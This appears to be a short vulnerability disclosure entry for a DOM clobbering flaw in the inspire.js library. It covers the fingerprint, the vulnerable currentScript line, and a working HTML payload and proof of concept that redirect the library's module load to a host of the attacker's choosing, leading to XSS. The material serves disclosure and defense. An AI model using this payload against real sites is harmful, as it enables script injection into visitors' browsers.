 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7K
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://inspirejs.org/inspire.js`

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```html
<!--Library-->
<script src="https://inspirejs.org/inspire.js"></script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999"></img>
<!--Payload-->
```
